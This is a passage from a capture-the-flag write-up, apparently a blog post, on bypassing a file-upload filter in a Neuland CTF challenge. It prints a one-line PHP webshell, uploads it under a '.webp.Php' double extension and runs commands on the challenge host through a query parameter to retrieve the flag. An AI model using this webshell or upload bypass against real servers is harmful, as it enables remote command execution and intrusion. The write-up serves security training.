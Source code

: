 <br>

![](../src/blog/images/neuland-ctf-12-2023/upload3.webp)

<br>

Furthermore, we set the content of the 'image' to a webshell:

```
<?php system($_REQUEST['cmd']); ?>
```

After some fuzzing, we were able to upload a file named shell.webp.Php. Now, we can visit `http://78.46.78.30:1094/uploads/upload1.webp.Php?cmd=ls` to view the contents of the previously identified uploads directory. 

<br>

![](../src/blog/images/neuland-ctf-12-2023/upload4.webp)

<br>

We find the flag within the `home` directory.

<br>

![](../src/blog/images/neuland-ctf-12-2023/upload5.webp)

<br>

The flag is `nland{tHANks_4_Ur_fE3DBAck}`.
